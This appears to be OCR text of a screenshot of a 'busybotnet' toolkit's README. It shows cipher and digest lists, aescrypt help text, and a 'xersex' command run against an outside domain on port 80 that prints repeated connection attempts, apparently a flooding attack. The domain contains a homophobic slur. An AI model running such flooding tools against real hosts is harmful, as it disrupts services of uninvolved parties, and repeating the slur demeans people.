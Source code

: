   AES-256-CCM
  ARC4-128
  BLOWFISH-ECB
  BLOWFISH-CBC
  BLOWFISH-CFB64
  BLOWFISH-CTR
  CAMELLIA-128-ECB
  CAMELLIA-192-ECB
  CAMELLIA-256-ECB
  CAMELLIA-128-CBC
  CAMELLIA-192-CBC
  CAMELLIA-256-CBC
  CAMELLIA-128-CFB128
  CAMELLIA-192-CFB128
  CAMELLIA-256-CFB128
  CAMELLIA-128-CTR
  CAMELLIA-192-CTR
  CAMELLIA-256-CTR
  CAMELLIA-128-GCM
  CAMELLIA-192-GCM
  CAMELLIA-256-GCM
  CAMELLIA-128-CCM
  CAMELLIA-192-CCM
  CAMELLIA-256-CCM
  DES-ECB
  DES-EDE-ECB
  DES-EDE3-ECB
  DES-CBC
  DES-EDE-CBC
  DES-EDE3-CBC

Available message digests:
  SHA512
  SHA384
  SHA256
  SHA224
  SHA1
  RIPEMD160
  MD5

evil@devbox:~/busybotnet$ ./busybotnet aescrypt -h

  aescrypt2 <mode> <input filename> <output filename> <key>

   <mode>: 0 = encrypt, 1 = decrypt

  example: aescrypt2 0 file file.aes hex:E76B2413958B00E193

Usage: xersex NoneNone
evil@devbox:~/busybotnet$ ./busybotnet xersex fags.com 80
[Connecting -> fags.com:80
[Connecting -> fags.com:80
[Connecting -> fags.com:80
[Connecting -> fags.com:80
[Connecting -> fags.com:80
[Connecting -> fags.com:80
[Connecting -> fags.com:80
^C
evil@devbox:~/busybotnet$ ./busybox wget
BusyBox v1.24.1 (2016-03-15 22:49:48 CDT) multi-call binary.
